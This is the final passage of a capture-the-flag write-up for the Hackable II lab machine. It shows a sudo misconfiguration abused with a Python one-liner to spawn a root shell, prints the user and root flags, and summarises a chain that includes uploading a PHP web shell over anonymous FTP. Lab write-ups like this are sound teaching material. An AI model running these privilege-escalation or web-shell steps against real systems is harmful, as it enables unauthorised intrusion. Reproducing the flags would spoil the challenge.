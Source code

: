 **User Flag:** `flag{d41d8cd98f00b204e9800998ecf8427e}`


### Privilege Escalation to Root

As `shrek`, I immediately checked `sudo` permissions:

```shellscript
shrek@ubuntu:/home/shrek$ sudo -l
Matching Defaults entries for shrek on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shrek may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3.5
```

This is a clear privilege escalation vector! The `shrek` user can run `/usr/bin/python3.5` as `root` without a password.

I can use `python3.5` to spawn a root shell:

```shellscript
shrek@ubuntu:/home/shrek$ sudo /usr/bin/python3.5 -c 'import os; os.setuid(0);os.system("/bin/bash")'
```

This command executed `/bin/bash` with root privileges.

```shellscript
root@ubuntu:/home/shrek# id
uid=0(root) gid=0(root) groups=0(root)
```

I am now `root`!

### Root Flag

Finally, I navigated to the `/root` directory to find the root flag:

```shellscript
root@ubuntu:/home/shrek# cd /root
root@ubuntu:/root# ls
root.txt
root@ubuntu:/root# cat root.txt
flag{8f420533b79076cc99e9f95a1a4e5568}
```

**Root Flag:** `flag{8f420533b79076cc99e9f95a1a4e5568}`

## Conclusion

The Hackable II challenge was a straightforward yet effective demonstration of common penetration testing techniques. It involved:

1. **Network and Web Enumeration**: Identifying open ports and writable web directories.
2. **Anonymous FTP Upload**: Leveraging anonymous write access to upload a web shell.
3. **Initial Shell**: Gaining a `www-data` shell via the uploaded PHP web shell.
4. **User Enumeration**: Discovering the `shrek` user and the user flag.
5. **Password Discovery**: Using a hint from a script to find `shrek`'s password.
6. **Privilege Escalation**: Exploiting a `sudo` misconfiguration (`NOPASSWD` for `python3.5`) to gain root access.
